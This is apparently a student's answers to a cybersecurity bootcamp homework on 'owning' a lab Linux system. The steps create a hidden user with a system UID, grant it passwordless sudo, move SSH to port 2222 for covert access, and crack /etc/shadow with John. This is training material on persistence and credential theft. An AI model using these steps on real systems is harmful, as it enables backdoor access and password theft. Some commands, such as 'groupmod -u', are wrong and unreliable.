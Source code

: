 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - adduser sysd

2. Give your secret user a password: 
    -sudo passwd sysd `

3. Give your secret user a system UID < 1000:
    - usermod -u 900 sysd

4. Give your secret user the same GID:
   - groupmod -u 900 sysd

5. Give your secret user full `sudo` access without the need for a password:
   - sysd ALL=(ALL:ALL) NOPASSWD:ALL 

6. Test that `sudo` access works without your password:

    `sudo -l
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```sudo nano /etc/ssh/sshd_config

       Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    
    - /etc/init.d/ssh restart

2. Exit the `root` account:
    - su sysd 

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo -s

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - john /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

